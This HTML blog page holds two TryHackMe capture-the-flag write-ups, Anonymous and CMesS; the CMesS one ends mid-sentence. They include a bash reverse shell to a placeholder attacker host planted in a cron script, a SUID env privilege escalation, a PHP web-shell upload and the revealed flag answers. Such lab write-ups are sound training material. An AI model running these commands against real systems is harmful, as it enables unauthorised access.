

<!DOCTYPE html>
<html>
<head><meta name="generator" content="Hexo 3.8.0">
  <meta charset="utf-8">
  

  
  <title>n3ird4</title>
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <meta property="og:type" content="website">
<meta property="og:title" content="n3ird4">
<meta property="og:url" content="http://91.208.181.214/index.html">
<meta property="og:site_name" content="n3ird4">
<meta property="og:locale" content="fr">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="n3ird4">
  
    <link rel="alternate" href="/atom.xml" title="n3ird4" type="application/atom+xml">
  
  
    <link rel="icon" href="/favicon.png">
  
  
    <link href="//fonts.googleapis.com/css?family=Source+Code+Pro" rel="stylesheet" type="text/css">
  
  <link rel="stylesheet" href="/css/style.css">
</head>
</html>
<body>
  <div id="container">
    <div id="wrap">
      <header id="header">
  <div id="banner"></div>
  <div id="header-outer" class="outer">
    <div id="header-title" class="inner">
      <h1 id="logo-wrap">
        <a href="/" id="logo">n3ird4</a>
      </h1>
      
        <h2 id="subtitle-wrap">
          <a href="/" id="subtitle">Just a blog about SysOps H4c|&lt; and Petanque...</a>
        </h2>
      
    </div>
    <div id="header-inner" class="inner">
      <nav id="main-nav">
        <a id="main-nav-toggle" class="nav-icon"></a>
        
          <a class="main-nav-link" href="/">Home</a>
        
          <a class="main-nav-link" href="/archives">Archives</a>
        
      </nav>
      <nav id="sub-nav">
        
          <a id="nav-rss-link" class="nav-icon" href="/atom.xml" title="Flux RSS"></a>
        
        <a id="nav-search-btn" class="nav-icon" title="Rechercher"></a>
      </nav>
      <div id="search-form-wrap">
        <form action="//google.com/search" method="get" accept-charset="UTF-8" class="search-form"><input type="search" name="q" class="search-form-input" placeholder="Search"><button type="submit" class="search-form-submit">&#xF002;</button><input type="hidden" name="sitesearch" value="http://91.208.181.214"></form>
      </div>
    </div>
  </div>
</header>
      <div class="outer">
        <section id="main">
  
    <article id="post-seeyoulater" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2023/12/27/seeyoulater/" class="article-date">
  <time datetime="2023-12-27T22:02:42.000Z" itemprop="datePublished">2023-12-27</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/Hexo/">Hexo</a>►<a class="article-category-link" href="/categories/Hexo/bye-bye-2023/">bye bye 2023</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2023/12/27/seeyoulater/">seeyoulater</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <p>Well, It’s been a tough year ! Only 4 days and 2 hours left ;)<br>See you in the future o/</p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2023/12/27/seeyoulater/" data-id="clqobt6cj001xw9iybyhh3b5t" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/FortyTwo/">FortyTwo</a></li></ul>

    </footer>
  </div>
  
</article>


  
    <article id="post-TryHackMe-Anonymous-Write-Up" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2022/03/06/TryHackMe-Anonymous-Write-Up/" class="article-date">
  <time datetime="2022-03-06T13:42:42.000Z" itemprop="datePublished">2022-03-06</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/CTF/">CTF</a>►<a class="article-category-link" href="/categories/CTF/TryHackMe-Anonymous/">TryHackMe Anonymous</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2022/03/06/TryHackMe-Anonymous-Write-Up/">TryHackMe Anonymous Writeup</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <h1 id="Room-Anonymous-Not-the-hacking-group"><a href="#Room-Anonymous-Not-the-hacking-group" class="headerlink" title="Room: Anonymous (Not the hacking group)"></a>Room: <a href="https://tryhackme.com/room/anonymous" target="_blank" rel="noopener">Anonymous</a> (<em>Not the hacking group</em>)</h1><h2 id="Basic-Enum"><a href="#Basic-Enum" class="headerlink" title="Basic Enum"></a>Basic Enum</h2><p>Nmap / rustcan</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">IP=VICTIM</span><br><span class="line">rustscan <span class="_">-a</span> <span class="variable">$IP</span> | tee rustscan.log</span><br><span class="line">[...]</span><br><span class="line">PORT    STATE SERVICE      REASON</span><br><span class="line">21/tcp  open  ftp          syn-ack ttl 63</span><br><span class="line">22/tcp  open  ssh          syn-ack ttl 63</span><br><span class="line">139/tcp open  netbios-ssn  syn-ack ttl 63</span><br><span class="line">445/tcp open  microsoft-ds syn-ack ttl 63</span><br></pre></td></tr></table></figure>
<ul>
<li><p>Enumerate the machine.  How many ports are open?<br><strong>4</strong></p>
</li>
<li><p>What service is running on port 21?<br><strong>ftp</strong></p>
</li>
<li><p>What service is running on ports 139 and 445?<br><strong>smb</strong></p>
</li>
</ul>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line">smbclient -L <span class="variable">$IP</span> (without any password)</span><br><span class="line"></span><br><span class="line">Enter WORKGROUP\root<span class="string">'s password: </span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">	Sharename       Type      Comment</span></span><br><span class="line"><span class="string">	---------       ----      -------</span></span><br><span class="line"><span class="string">	print$          Disk      Printer Drivers</span></span><br><span class="line"><span class="string">	pics            Disk      My SMB Share Directory for Pics</span></span><br><span class="line"><span class="string">	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))</span></span><br></pre></td></tr></table></figure>
<ul>
<li>There’s a share on the user’s computer. What’s it called?<br><strong>pics</strong></li>
</ul>
<blockquote>
<p>HINT: What’s that log file doing there?… nc won’t work the way you’d expect it to!</p>
</blockquote>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line">ftp <span class="variable">$IP</span></span><br><span class="line"></span><br><span class="line">Name: anonymous</span><br><span class="line">Password: (without any password)</span><br><span class="line">ftp&gt; ls</span><br><span class="line">drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts</span><br><span class="line">ftp&gt; <span class="built_in">cd</span> scripts</span><br><span class="line">ftp&gt; ls</span><br><span class="line">-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh</span><br><span class="line">-rw-rw-r--    1 1000     1000         1376 Mar 05 22:23 removed_files.log</span><br><span class="line">-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt</span><br><span class="line">226 Directory send OK.</span><br><span class="line"></span><br><span class="line">ftp&gt; mget *</span><br></pre></td></tr></table></figure>
<p>Let’s cat each files: </p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line">cat clean.sh </span><br><span class="line"><span class="meta">#!/bin/bash</span></span><br><span class="line"></span><br><span class="line">tmp_files=0</span><br><span class="line"><span class="built_in">echo</span> <span class="variable">$tmp_files</span></span><br><span class="line"><span class="keyword">if</span> [ <span class="variable">$tmp_files</span>=0 ]</span><br><span class="line"><span class="keyword">then</span></span><br><span class="line">        <span class="built_in">echo</span> <span class="string">"Running cleanup script:  nothing to delete"</span> &gt;&gt; /var/ftp/scripts/removed_files.log</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">    <span class="keyword">for</span> LINE <span class="keyword">in</span> <span class="variable">$tmp_files</span>; <span class="keyword">do</span></span><br><span class="line">        rm -rf /tmp/<span class="variable">$LINE</span> &amp;&amp; <span class="built_in">echo</span> <span class="string">"<span class="variable">$(date)</span> | Removed file /tmp/<span class="variable">$LINE</span>"</span> &gt;&gt; /var/ftp/scripts/removed_files.log;<span class="keyword">done</span></span><br><span class="line"><span class="keyword">fi</span></span><br></pre></td></tr></table></figure>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">cat removed_files.log </span><br><span class="line">Running cleanup script:  nothing to delete</span><br><span class="line">Running cleanup script:  nothing to delete</span><br><span class="line">Running cleanup script:  nothing to delete</span><br></pre></td></tr></table></figure>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">cat to_do.txt        </span><br><span class="line">I really need to <span class="built_in">disable</span> the anonymous login...it<span class="string">'s really not safe</span></span><br></pre></td></tr></table></figure>
<h2 id="Basic-shell"><a href="#Basic-shell" class="headerlink" title="Basic shell"></a>Basic shell</h2><p>So let’s have fun by uploading this reverse shell via ftp now:</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">cat clean.sh</span><br><span class="line"></span><br><span class="line"><span class="meta">#!/bin/bash</span></span><br><span class="line">bash -i &gt;&amp; /dev/tcp/&lt;AttackerIp&gt;/4242 0&gt;&amp;1</span><br></pre></td></tr></table></figure>
<p>And after few seconds we are in :</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">rlwrap nc -nlvp 4242</span><br><span class="line">listening on [any] 4242</span><br><span class="line">namelessone@anonymous:~$ </span><br><span class="line">id</span><br><span class="line">uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)</span><br><span class="line">ls</span><br><span class="line">pics  user.txt</span><br><span class="line">cat user.txt</span><br><span class="line">90d6f992[Redcated]8748c414740</span><br><span class="line">namelessone@anonymous:~$</span><br></pre></td></tr></table></figure>
<details><br>  <summary>Click to reveal the user flag!</summary><br><br>  <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">90d6f992585815ff991e68748c414740</span><br></pre></td></tr></table></figure><br><br></details>

<blockquote>
<p>HINT: This may require you to do some outside research</p>
</blockquote>
<p>Indeed:</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">find / -perm -u=s 2&gt;/dev/null</span><br><span class="line">[...]</span><br><span class="line">/usr/bin/env</span><br></pre></td></tr></table></figure>
<p>So let’s try this: <a href="https://gtfobins.github.io/gtfobins/env/#shell" target="_blank" rel="noopener">gtfobins break out from restricted environments</a> </p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">env /bin/bash -p</span><br><span class="line">bash-4.4<span class="comment"># id</span></span><br><span class="line">uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)</span><br><span class="line">cat /root/root.txt</span><br><span class="line">4d930091[Redacted]f27999af363</span><br><span class="line">bash-4.4<span class="comment">#</span></span><br></pre></td></tr></table></figure>
<p>Houra :partying_face:</p>
<details><br>  <summary>Click to reveal the root flag!</summary><br><br>  <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">4d930091c31a622a7ed10f27999af363</span><br></pre></td></tr></table></figure><br><br></details>


<h3 id="Useful-Links"><a href="#Useful-Links" class="headerlink" title="Useful Links:"></a>Useful Links:</h3><p><a href="https://github.com/RustScan/RustScan" target="_blank" rel="noopener">rustscan</a></p>
<p><a href="https://www.revshells.com/" target="_blank" rel="noopener">revshells</a></p>
<p><a href="https://gtfobins.github.io/" target="_blank" rel="noopener">gtfobins</a></p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2022/03/06/TryHackMe-Anonymous-Write-Up/" data-id="clqobt69n000aw9iy4rb5ueyo" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/tryhackme/">tryhackme</a></li></ul>

    </footer>
  </div>
  
</article>


  
    <article id="post-TryHackMe-CMesS-CTF-Write-Up" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2021/11/05/TryHackMe-CMesS-CTF-Write-Up/" class="article-date">
  <time datetime="2021-11-05T13:42:42.000Z" itemprop="datePublished">2021-11-05</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/CTF/">CTF</a>►<a class="article-category-link" href="/categories/CTF/TryHackMe-CMesS/">TryHackMe CMesS</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2021/11/05/TryHackMe-CMesS-CTF-Write-Up/">TryHackMe CMesS CTF Write Up</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <p>Hey THM is pretty cool though so let’s have fun with this CMesS room</p>
<p>First hint: <em>Please also note that this box does not require brute forcing!</em></p>
<p>A quick <a href="https://github.com/RustScan/RustScan" target="_blank" rel="noopener">rustscan</a> scan gave me only 2 open ports:</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">PORT   STATE SERVICE REASON</span><br><span class="line">22/tcp open  ssh     syn-ack ttl 63</span><br><span class="line">80/tcp open  http    syn-ack ttl 63</span><br></pre></td></tr></table></figure>
<p>but nmap return some juicy info:</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))</span><br><span class="line">|_http-generator: Gila CMS</span><br><span class="line">| http-robots.txt: 3 disallowed entries </span><br><span class="line">|_/src/ /themes/ /lib/</span><br><span class="line">|_http-server-header: Apache/2.4.18 (Ubuntu)</span><br><span class="line">|_http-title: Site doesn&apos;t have a title (text/html; charset=UTF-8).</span><br></pre></td></tr></table></figure>
<p>Gila ? Fair enough.</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line">~# searchsploit Gila CMS                                      </span><br><span class="line">----------------------------------------------------------------------------------------------------- ---------------------------------</span><br><span class="line"> Exploit Title                                                                                       |  Path</span><br><span class="line">----------------------------------------------------------------------------------------------------- ---------------------------------</span><br><span class="line">Gila CMS 1.11.8 - &apos;query&apos; SQL Injection                                                              | php/webapps/48590.py</span><br><span class="line">Gila CMS 1.9.1 - Cross-Site Scripting                                                                | php/webapps/46557.txt</span><br><span class="line">Gila CMS 2.0.0 - Remote Code Execution (Unauthenticated)                                             | php/webapps/49412.py</span><br><span class="line">Gila CMS &lt; 1.11.1 - Local File Inclusion                                                             | multiple/webapps/47407.txt</span><br><span class="line">----------------------------------------------------------------------------------------------------- ---------------------------------</span><br></pre></td></tr></table></figure>
<p>I also ran gobuster in the background but at this stage could not figure out where to go 🤔</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br></pre></td><td class="code"><pre><span class="line">===============================================================</span><br><span class="line">2042/04/02 21:42:42 Starting gobuster in directory enumeration mode</span><br><span class="line">===============================================================</span><br><span class="line">/index                (Status: 200) [Size: 3860]</span><br><span class="line">/blog                 (Status: 200) [Size: 3860]</span><br><span class="line">/search               (Status: 200) [Size: 3860]</span><br><span class="line">/about                (Status: 200) [Size: 3359]</span><br><span class="line">/1.html               (Status: 200) [Size: 4090]</span><br><span class="line">/01.php               (Status: 200) [Size: 4090]</span><br><span class="line">/1.log                (Status: 200) [Size: 4090]</span><br><span class="line">/01.txt               (Status: 200) [Size: 4090]</span><br><span class="line">/1.cgi                (Status: 200) [Size: 4090]</span><br><span class="line">/1.sh                 (Status: 200) [Size: 4090]</span><br><span class="line">/01.html              (Status: 200) [Size: 4090]</span><br><span class="line">/1.js                 (Status: 200) [Size: 4090]</span><br><span class="line">/01.log               (Status: 200) [Size: 4090]</span><br><span class="line">/1.php                (Status: 200) [Size: 4090]</span><br><span class="line">/01                   (Status: 200) [Size: 4090]</span><br><span class="line">/1                    (Status: 200) [Size: 4090]</span><br><span class="line">/01.cgi               (Status: 200) [Size: 4090]</span><br><span class="line">/1.txt                (Status: 200) [Size: 4090]</span><br><span class="line">/login                (Status: 200) [Size: 1583]</span><br><span class="line">/01.sh                (Status: 200) [Size: 4090]</span><br><span class="line">/01.js                (Status: 200) [Size: 4090]</span><br><span class="line">/category             (Status: 200) [Size: 3871]</span><br><span class="line">/0                    (Status: 200) [Size: 3860]</span><br><span class="line">/themes               (Status: 301) [Size: 324] [--&gt; http://X.X.X.X/themes/?url=themes]</span><br><span class="line">/feed                 (Status: 200) [Size: 735]                                             </span><br><span class="line">/admin                (Status: 200) [Size: 1583]                                            </span><br><span class="line">/assets               (Status: 301) [Size: 324] [--&gt; http://X.X.X.X/assets/?url=assets]</span><br><span class="line">/tag                  (Status: 200) [Size: 3883]                                            </span><br><span class="line">/author               (Status: 200) [Size: 3599]                                            </span><br><span class="line">/Search               (Status: 200) [Size: 3860]                                            </span><br><span class="line">/sites                (Status: 301) [Size: 322] [--&gt; http://X.X.X.X/sites/?url=sites]  </span><br><span class="line">/About                (Status: 200) [Size: 3345]                                            </span><br><span class="line">/log                  (Status: 301) [Size: 318] [--&gt; http://X.X.X.X/log/?url=log]      </span><br><span class="line">/Index                (Status: 200) [Size: 3860]                                            </span><br><span class="line">/tags                 (Status: 200) [Size: 3145]                                            </span><br><span class="line">/1x1.js               (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1x1.php              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1x1                  (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1x1.txt              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1x1.html             (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1x1.log              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1x1.cgi              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1x1.sh               (Status: 200) [Size: 4090]                                            </span><br><span class="line">/lib                  (Status: 301) [Size: 318] [--&gt; http://X.X.X.X/lib/?url=lib]      </span><br><span class="line">/src                  (Status: 301) [Size: 318] [--&gt; http://X.X.X.X/src/?url=src]      </span><br><span class="line">/api                  (Status: 200) [Size: 0]                                               </span><br><span class="line">/robots.txt           (Status: 200) [Size: 65]                                              </span><br><span class="line">/001.js               (Status: 200) [Size: 4090]                                            </span><br><span class="line">/001                  (Status: 200) [Size: 4090]                                            </span><br><span class="line">/001.php              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/001.txt              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/001.html             (Status: 200) [Size: 4090]                                            </span><br><span class="line">/001.log              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/001.cgi              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/001.sh               (Status: 200) [Size: 4090]                                            </span><br><span class="line">/cm                   (Status: 500) [Size: 0]                                               </span><br><span class="line">/1pix.js              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1pix                 (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1pix.php             (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1pix.txt             (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1pix.html            (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1pix.log             (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1pix.cgi             (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1pix.sh              (Status: 200) [Size: 4090]                                            </span><br><span class="line">/fm                   (Status: 200) [Size: 0]                                               </span><br><span class="line">/tmp                  (Status: 301) [Size: 318] [--&gt; http://X.X.X.X/tmp/?url=tmp]      </span><br><span class="line">/1a.log               (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1a.cgi               (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1a.sh                (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1a.js                (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1a                   (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1a.php               (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1a.txt               (Status: 200) [Size: 4090]                                            </span><br><span class="line">/1a.html              (Status: 200) [Size: 4090]</span><br><span class="line">[...]</span><br></pre></td></tr></table></figure>
<p>The /admin URL was intersting so I had a quick look over the “php/webapps/48590.py” from searchsploit result.<br>I figured out that I had to be connected to the CMS somehow in order to get my GSESSIONID and of course without bruteforcing !<br>Exploiting the <a href="https://nvd.nist.gov/vuln/detail/CVE-2020-5515" target="_blank" rel="noopener">CVE_2020_5515</a> will be the goal IIUC.</p>
<p>Hum…In order to get connected I had to click on the hint: <em>Have you tried fuzzing for subdomains?</em><br>And of course I did not !!!🔨 🔨 🔨<br>And was not able to get some info with sublist3r btw:</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">./sublist3r.py -d cmess.thm</span><br></pre></td></tr></table></figure>
<p>But I finally found something cool with <a href="https://github.com/ffuf/ffuf" target="_blank" rel="noopener">ffuf</a></p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">./ffuf -w seclists/Discovery/DNS/namelist.txt -H &quot;Host: FUZZ.cmess.thm&quot; -u http://X.X.X.X -fs 2395</span><br></pre></td></tr></table></figure>
<p>and added it to my /etc/hosts </p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line">&lt;redacted&gt;</span><br><span class="line">XXX@cmess.thm</span><br><span class="line"></span><br><span class="line">Have you guys fixed the bug that was found on live?</span><br><span class="line">XXX@cmess.thm</span><br><span class="line"></span><br><span class="line">Hey XXX, We have managed to fix the misconfigured .htaccess file, we&apos;re hoping to patch it in the upcoming patch!</span><br><span class="line">XXX@cmess.thm</span><br><span class="line"></span><br><span class="line">Update! We have had to delay the patch due to unforeseen circumstances</span><br><span class="line">XXX@cmess.thm</span><br><span class="line"></span><br><span class="line">That&apos;s ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.</span><br><span class="line">XXX@cmess.thm</span><br><span class="line"></span><br><span class="line">Your password has been reset. Here: K&lt;redacted&gt;%</span><br></pre></td></tr></table></figure>
<p>Cool I finally had a user/password \o/ So I was able to connect and get my GSESSIONID via burpsuite.<br>Now I knew as I was connected that it was Gila CMS version 1.10.9<br>And config.php gave me some super juicy info: </p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">&apos;db&apos; =&gt; </span><br><span class="line">array (</span><br><span class="line">  &apos;host&apos; =&gt; &apos;localhost&apos;,</span><br><span class="line">  &apos;user&apos; =&gt; &apos;root&apos;,</span><br><span class="line">  &apos;pass&apos; =&gt; &apos;r&lt;redacted&gt;d&apos;,</span><br><span class="line">  &apos;name&apos; =&gt; &apos;gila&apos;,</span><br><span class="line">),</span><br></pre></td></tr></table></figure>
<p>In order to upload a shell I read <a href="https://github.com/jkana/Gila-CMS-1.16.0-shell-upload" target="_blank" rel="noopener">https://github.com/jkana/Gila-CMS-1.16.0-shell-upload</a><br>And was able to upload mine in /tmp and triggered it through <a href="http://cmess.thm/tmp/shell.php" target="_blank" rel="noopener">http://cmess.thm/tmp/shell.php</a></p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">~# cat shell.php</span><br><span class="line">&lt;?php</span><br><span class="line">$output = shell_exec(&apos;whoami&apos;);</span><br><span class="line">echo &quot;&lt;pre&gt;$output&lt;/pre&gt;&quot;;</span><br><span class="line">?&gt;</span><br></pre></td></tr></table></figure>
<p>and get the following result:</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">total 12K</span><br><span class="line">drwxr-xr-x 22 root  root  4.0K Feb  6  2020 ..</span><br><span class="line">drwxr-xr-x  3 root  root  4.0K Feb  6  2020 .</span><br><span class="line">drwxr-x---  4 xxxx  xxxx  4.0K Feb  9  2020 xxxx (redacted!)</span><br></pre></td></tr></table></figure>
<p>But obviously could not read it as I was connected as www-data user.<br>And so…pentest monkey dance started 😅<br>And as soon as I got my shell I was lucky enough to oneshot this:</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br></pre></td><td class="code"><pre><span class="line">cd opt</span><br><span class="line">ls</span><br><span class="line">ls -la</span><br><span class="line">total 12</span><br><span class="line">drwxr-xr-x  2 root root 4096 Feb  6  2020 .</span><br><span class="line">drwxr-xr-x 22 root root 4096 Feb  6  2020 ..</span><br><span class="line">-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak</span><br><span class="line">cat .password.bak</span><br><span class="line">xxxx backup password</span><br><span class="line">U&lt;redacted&gt;6</span><br><span class="line"></span><br><span class="line">su - xxxx</span><br><span class="line">cat user.txt</span><br><span class="line">thm&#123;&lt;redactedflag&gt;&#125;</span><br><span class="line">xxxx@cmess:~$</span><br></pre></td></tr></table></figure>
<p>I connected via ssh to get a better shell and obviously password was the same…<br>Had a quick look over /tmp and found a backup.tar.gz </p>
<p>It was related to the following cron task:</p>
